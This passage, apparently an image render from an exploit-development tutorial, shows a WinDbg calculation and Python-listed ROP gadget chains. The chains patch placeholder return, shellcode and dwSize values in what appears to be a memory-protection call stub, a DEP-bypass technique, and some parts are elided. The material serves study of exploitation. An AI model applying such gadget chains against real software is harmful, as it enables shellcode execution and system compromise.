 ```
0:000> ?0x0 - 0x00000001
Evaluate expression: -1 = ffffffff
```

```
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x61b6122a,  # pop eax; ret;
0xffffffff,  # -0x00000001
0x699ef43a,  # neg eax; ret;
0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;
```

```py
...
##############
# -> Patch Return Address and Shellcode Address (0x46464646 and 0x47474747)
##############
## Increment ECX in 4 bytes, to align the stack
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
## Copy ECX to EAX
0x6ab445f9,  # mov eax, ecx; ret;
## PUT -320 on EDX
0x61e30fe3,  # pop edx; ret;
0xfffffce0,  # -320
## -320 become 320
0x6eb47012,  # neg edx; ret;
## Increase EAX in 320
0x6ab00690,  # add eax, edx; ret;
## Write this address on ECX (0x46464646)
0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;
## Increase 4 bytes in ECX
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
## Write the value again on 0x47474747 (ECX)
0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;

##############
# -> dwSize (0x48484848)
##############
## Increase 4 bytes in ECX
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
## PUT -0x00000001 in EAX
0x61b6122a,  # pop eax; ret;
0xffffffff,  # -0x00000001
## NEG EAX, to become 1
0x699ef43a,  # neg eax; ret;
## Write on 0x48484848 (ECX)
0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;
...
```

